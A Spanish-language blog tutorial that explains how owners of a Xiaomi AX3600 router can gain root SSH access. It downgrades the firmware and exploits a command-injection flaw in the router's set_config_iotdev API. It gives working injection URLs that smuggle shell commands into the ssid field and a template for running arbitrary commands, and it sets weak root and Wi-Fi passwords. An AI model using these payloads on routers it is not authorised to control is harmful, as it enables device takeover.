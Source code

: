 
Xiaomi AX3600 - Activar SSH
===========================

Usaremos un exploit que se encuentra en una versión de firmware antigua para obtener acceso SSH al rúter y modificar a nuestro antojo los archivos de configuración. AX3600 SSH

1 mar. 2021 · 3 min de lectura

Antes que nada hay que agradecer al usuario [LonGDikE 188](https://www.right.com.cn/forum/space-uid-249305.html) de un foro de entusiastas chinos, ya que logro dar con el siguiente exploit para obtener acceso SSH a nuestro rúter.
A modo de tributo a la comunidad hispano hablante he traducido los pasos para activar SSH a nuestro querido idioma.

Lo primero, necesitamos tener el rúter en su versión china, en concreto la 1.0.17 ya que en dicha versión se encuentra el exploit.
La versión 1.0.17 la puedes descargar aquí: [dabm-git/ax3600-files](https://github.com/dabm-git/ax3600-files)

¡Ah! Antes de continuar, no me gusta el anglicismo router, por tanto usare rúter 🤪

* * *

### La versión 1.0.17  

Necesitamos estar en la versión 1.0.17 Y el rúter configurado, es decir con el asistente de configuración inicial terminado, desde la interfaz web de tu rúter puedes subir esta versión, en concreto tenemos que ir **Ajustes**\->**Información**\-> **Subir el fichero de forma manual.**

![](./resources/upgrade_ax3699.JPG)

Una vez subida la versión 1.0.17 el rúter se reiniciará y volverá a la configuración de fabrica con la versión que nos interesa.

Nos conectamos al rúter de nuevo, realizamos la configuración inicial, si, estará en chino... siguiente, siguiente, contraseña WiFi, te recomiendo establecer una contraseña sencilla por ahora, algo del estilo _123456789_ si tienes algún problema con el **Chino**, puedes usar tu móvil y traducir con la aplicación de [Google Translate](https://play.google.com/store/apps/details?id=com.google.android.apps.translate) usando la cámara.

### ¡Al turrón!  

En este punto tendremos la versión citada y podemos empezar a trastear, desde un explorador web nos conectaremos al rúter, generalmente la dirección IP será [192.168.31.1](http://192.168.31.1/) , la contraseña de log-in será la contraseña WiFi que se estableció en la configuración.

Lo que tenemos que hacer una vez iniciada la sesión será fijarnos en el parámetro _**;stok=(clave)**_ de en la barra de búsqueda.

![](./resources/stok_ax3699.JPG)

**En mi caso, el valor stok es: _3719ab425433e074d2bd05345f35944a_**

**Nota: en este punto puedes usar los métodos de bash y javascript simplemente copiando el script y pegándolo en la consola de tu explorador web desde la web principal de rúter (F12 -> Consola)**

A continuación construiremos el exploit en si, usando los siguientes enlaces, **modifica el parámetro <stok>** con el tuyo e introdúcelos uno por uno la barra de direcciones de tu explorador web.

Si todo ha ido bien, verás {"code":0} en el contenido de la web.

Con este primer enlace conseguiremos que el rúter ejecute: _nvram set ssh\_en=1; nvram commit,_ para **establecer que esta activado el SSH** en la memoria de acceso aleatorio no volátil.

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3Bnvram%20set%20ssh%5Fen%3D1%3B%20nvram%20commit%3B

Con el segundo se **activa el servicio de _dropbear_** para acceder via SSH, en concreto ejecuta: _sed -i 's/channel=.\*/channel="debug"/g' /etc/init.d/dropbear_

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3Bsed%20-i%20's/channel=.*/channel=%5C%22debug%5C%22/g'%20/etc/init.d/dropbear%3B

Con el tercero se **enciende el servicio SSH**, ejecuta: _/etc/init.d/dropbear start_

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3B/etc/init.d/dropbear%20start%3B

¡Enhorabuena! En este punto si todos los códigos han sido 0, tienes activado en tu rúter SSH, ahora bien el usuario será root, pero **¿y cual es la contraseña?.**

Pues vamos a ponerle, _admin_, por qué no :P, ejecuta: _echo -e "admin/nadmin" | passwd root,_ para **establecer una contraseña a root**.

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%0Aecho%20-e%20%27admin%5Cnadmin%27%20%7C%20passwd%20root%0A
    

Ahora si, ya tenemos activado SSH en nuestro rúter y además el usuario es _**root**_ y la contraseña _**admin**._

![](./resources/ax3600-1.jpg)

Adicionalmente si quieres enviar algún otro comando usando el exploit stok, puedes usar el siguiente enlace (o hacerlo directamente desde la terminal), añadiendo el código que quieras al final, pero ¡ojo!, tiene un marcado de enlaces de explorador...

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3B<encoded shell here>%3B

**Si queremos que persista el desbloqueo SSH** con las actualizaciones, por si nos interesa actualizarlo a una versión Internacional, - en el siguiente post -, donde además explico como cambiar la localización del mismo para cumplimentar con las leyes de emisión WiFi (o no) > \[En breve jeje\]

* * *

